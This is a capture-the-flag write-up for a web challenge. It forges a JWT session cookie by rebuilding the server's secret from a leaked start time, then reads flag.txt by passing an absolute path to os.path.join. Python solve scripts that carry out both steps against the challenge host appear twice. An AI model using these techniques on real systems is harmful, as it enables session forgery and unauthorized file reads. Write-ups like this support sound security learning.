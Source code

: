
#### Overview

Overall this was a pretty fun challenge, I enjoyed it a lot. It came off as easy at first, but tricked me in a few places. This challenge can be broken down into two major stages: figure out how to get the same secret key to sign a session cookie and how to get the file `flag.txt` from the `filename` url parameter.

#### Approach

When I first opened up the web page, I got a 403 error. So I inspected the source code provided and found that the server is checking for a key value pair`{userid: 0}` in the session cookie.

![web1_1](/BYUCTF2024/images/byu1_1.png)

![web1_2](/BYUCTF2024/images/byu1_2.png)


#### Stage 1

In order to sign the session cookie, I needed to create the same secret key as the server used to authenticate. Looking through the source code, I found that it returned `time.time()-time.started()` in the response when I sent a request with an incorrect session cookie. So I extracted the seconds in the response and calculated `time_started`, which was the key to crafting the secret key. Here is my code for signing the session cookie:

```
import hashlib, time, jwt, requests

r = requests.get('https://random.chal.cyberjousting.com/', cookies={'session':"test"})
res = r.text
seconds = int(res[72:75])
time_started = round(time.time() - seconds)
APP_SECRET = hashlib.sha256(str(time_started).encode()).hexdigest()
payload = jwt.encode(payload={'userid': 0}, key=APP_SECRET, algorithm='HS256')
cookie = {'session': payload}
```


#### Stage 2

The next stage of the challenge involved reading the file `flag.txt` from the `filename` url parameter. I first looked through the Dockerfile and found the directory `flag.txt` was in. The tricky part here was figuring out how to get from `files/` to the correct directory without using `../` for path traversal. It turned out that `os.path.join()` will overwrite the previous path if it sees another absolute path. So to get the final flag, I sent the request to the route `/api/file` with the absolute path to the file as the parameter.

```
r = requests.get('https://random.chal.cyberjousting.com/api/file?filename=/in_prod_this_is_random/flag.txt', cookies=cookie)
print(r.text)
```


#### Solution

Putting everything together, here is my final solve for the challenge:

```
import hashlib, time, jwt, requests

r = requests.get('https://random.chal.cyberjousting.com/', cookies={'session':"test"})
res = r.text
seconds = int(res[72:75])
time_started = round(time.time() - seconds)
APP_SECRET = hashlib.sha256(str(time_started).encode()).hexdigest()
payload = jwt.encode(payload={'userid': 0}, key=APP_SECRET, algorithm='HS256')
cookie = {'session': payload}

r = requests.get('https://random.chal.cyberjousting.com/api/file?filename=/in_prod_this_is_random/flag.txt', cookies=cookie)
print(r.text)
```
